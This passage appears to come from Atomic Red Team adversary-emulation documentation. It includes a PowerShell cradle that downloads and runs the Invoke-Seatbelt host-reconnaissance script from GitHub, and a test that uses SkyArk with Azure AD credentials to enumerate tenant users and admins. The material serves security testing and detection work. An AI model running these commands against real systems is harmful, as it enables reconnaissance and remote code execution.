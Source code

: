 

#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Seatbelt.ps1')
Invoke-Seatbelt -Command "-group=all"
```






<br/>
<br/>

## Atomic Test #24 - Azure Security Scan with SkyArk
Upon successful execution, this test will utilize a valid read-only Azure AD user's credentials to conduct a security scan and determine what users exist in a given tenant, as well as identify any admin users. 
Once the test is complete, a folder will be output to the temp directory that contains 3 csv files which provide info on the discovered users. 
See https://github.com/cyberark/SkyArk

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 26a18d3d-f8bc-486b-9a33-d6df5d78a594





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\AzureStealth.ps1" -force      
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-AzAccount -Credential $Credential
Connect-AzureAD -Credential $Credential
Scan-AzureAdmins -UseCurrentCred
```

#### Cleanup Commands:
```powershell
$resultstime = Get-Date -Format "yyyyMMdd"
$resultsfolder = ("Results-" + $resultstime)
remove-item $env:temp\$resultsfolder -recurse -force -erroraction silentlycontinue
```
